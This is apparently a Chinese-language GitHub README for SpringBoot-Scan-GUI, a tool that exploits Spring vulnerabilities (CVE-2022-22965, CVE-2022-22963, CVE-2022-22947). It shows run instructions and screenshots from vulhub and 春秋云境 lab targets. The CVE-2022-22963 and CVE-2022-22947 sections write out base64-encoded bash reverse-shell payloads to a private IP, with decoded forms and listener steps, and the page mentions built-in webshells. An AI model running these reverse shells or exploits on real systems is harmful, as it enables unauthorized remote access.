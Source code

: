 # SpringBoot-Scan-GUI by 13exp

Windows:<br> 
python SpringBoot-Scan-GUI.py<br>
直接执行release文件夹内exe程序<br>
<br>
Linux:<br>
python3 SpringBoot-Scan-GUI-Linux.py<br>
wine SpringBoot-Scan-GUI.exe<br>
<br>
Win使用效果图<br>
CVE-2022-22965<br>
vulhub<br>
![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)
CVE-2022-22963<br>
vulhub<br>
准备反弹shell<br>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)<br>
编码内容→bash -i >& /dev/tcp/192.168.0.105/8888 0>&1<br>
kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)
漏洞利用<br>
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)
CVE-2022-22947<br>
vulhub<br>
同样准备反弹shell<br>
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)<br>
编码内容→bash -i >& /dev/tcp/192.168.0.105/8889 0>&1<br>
kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)
漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)
春秋云境<br>
![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
